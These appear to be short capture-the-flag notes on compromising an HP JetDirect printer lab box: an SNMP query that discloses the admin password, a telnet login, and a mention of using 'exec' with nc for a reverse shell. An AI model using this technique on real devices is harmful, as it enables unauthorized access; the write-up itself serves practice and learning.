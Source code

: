 # Recon
only tcp 23 is open.

# Enum
# 23
telnet => "HP JetDirect"
Google and found an exploit "HP JetDirect Printer - SNMP JetAdmin Device Password Disclosure"
=> nmpget -v1 -Cf -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
=> iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
=> P@ssw0rd@123!!12
3 (rest are non printable)
=> Tried P@ssw0rd@123!!12 => no, try P@ssw0rd@123!!123 => worked.

there is a "exec" command => use nc get a reverse shell.

# Priv Esc
Pay attention to open ports. And read exploit's code.
